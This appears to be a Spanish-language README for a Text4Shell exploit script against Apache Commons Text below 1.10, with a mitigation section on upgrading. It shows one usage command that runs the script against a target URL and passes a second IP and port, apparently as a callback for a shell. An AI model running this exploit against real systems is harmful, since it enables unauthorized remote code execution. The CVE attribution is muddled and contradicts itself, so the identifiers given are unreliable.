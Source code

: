 # riskootext4shell
text4shell script for text coomons &lt; =1.10 CVE-2022-33980


- La biblioteca Apache Commons Text es una librería alternativa a las funcionalidades nativas del JDK de Java . 
- Versiones previas a versión 1.10.0 de apache commons
- Similar a CVE-2022-33980

```bash
python3 text4shell.py -u http://192.168.245.111:8080/search?query= -i 192.168.111.186 -p 22
```



## Mitigación


La solución principal consiste en actualizar urgentemente el componente Apache Commons Text a las versiones disponibles que corrigen esta vulnerabilidad. Concretamente, se debe actualizar a una versión 1.10.0 o posterior de Apache Commons Text.

En esta actualización, se ha optado por deshabilitar por defecto aquellas sustituciones problemáticas. En el fichero changelog de la librería se incluye el siguiente cambio:

Make default string lookups configurable vía system property. Remove dns, url, and script lookups from defaults. If these lookups are required for use in StringSubstitutor.createInterpolator(), they must be enabled vía system property. See StringLookupFactory for details.

Desde Apache se ha publicado un comunicado con la información oficial y una referencia a la actualización en la que se corrige el problema.
